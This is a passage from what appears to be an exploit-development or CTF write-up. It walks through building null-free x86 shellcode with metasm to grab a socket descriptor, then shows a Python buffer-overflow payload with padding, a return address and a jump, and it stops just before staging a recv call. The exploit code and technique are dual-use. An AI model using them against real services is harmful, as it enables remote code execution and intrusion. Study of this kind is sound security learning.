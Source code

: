 This means I can get the value by loading esp, adding 0x48, and then
getting the value from that address:

    push esp
    pop eax
    add ax, 0x48
    push dword [eax]

Unfortunately, `add az, 0x48` has nulls in it:



    metasm > add ax, 0x48
    "\x66\x05\x48\x00"



I'll add 0x149 and then subtract 0x101:



    metasm > add ax, 0x149
    "\x66\x05\x49\x01"
    metasm > sub ax, 0x101
    "\x66\x2d\x01\x01"



The updated payload is now:



    recv_sc = (
            # get socket descriptor in esi
            b"\x54"               # push esp
            b"\x58"               # pop eax
            b"\x66\x05\x49\x01"   # add ax, 0x149
            b"\x66\x2d\x01\x01"   # sub ax, 0x101
            b"\x8b\x30"           # mov esi, dword [eax]
            )

    payload = recv_sc + b"\xCC"*(66-len(recv_sc)) + p32(0x7190239f) + b"\xeb\xb8"



On running this, with a break at the `recv`, I can see the socket
descriptor, in this case, as 0x114. Continuing to the shellcode, ESI now
has that value:

![](/img/image-20220204153652747.png)

#### Separate EIP and ESP

From here, I'm going to prep the stack to call `recv`, but first,
there's an issue I need to take care of. Right now, the stack looks like
this:
